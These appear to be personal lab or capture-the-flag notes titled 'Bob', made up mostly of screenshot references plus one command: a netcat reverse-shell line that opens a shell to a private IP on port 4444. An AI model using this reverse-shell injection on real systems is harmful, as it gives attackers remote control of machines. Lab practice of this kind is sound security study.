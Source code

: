 # Bob
10 August 2022
07:15 PM

<img src="bob/media/image1.png" style="width:4.19167in;height:2in" />

<img src="bob/media/image2.png" style="width:5.6in;height:2.15833in" />

<img src="bob/media/image3.png" style="width:5.55833in;height:1.80833in" />

echo nc -c sh 192.168.43.208 4444|$0

<img src="bob/media/image4.png" style="width:5.45in;height:1.425in" />

<img src="bob/media/image5.png" style="width:5.33333in;height:0.91667in" />

<img src="bob/media/image6.png" style="width:6.71667in;height:2.125in" />

<img src="bob/media/image7.png" style="width:6.84167in;height:4.11667in" />

<img src="bob/media/image8.png" style="width:8.125in;height:1.1in" />

<img src="bob/media/image9.png" style="width:7.79167in;height:3.28333in" />

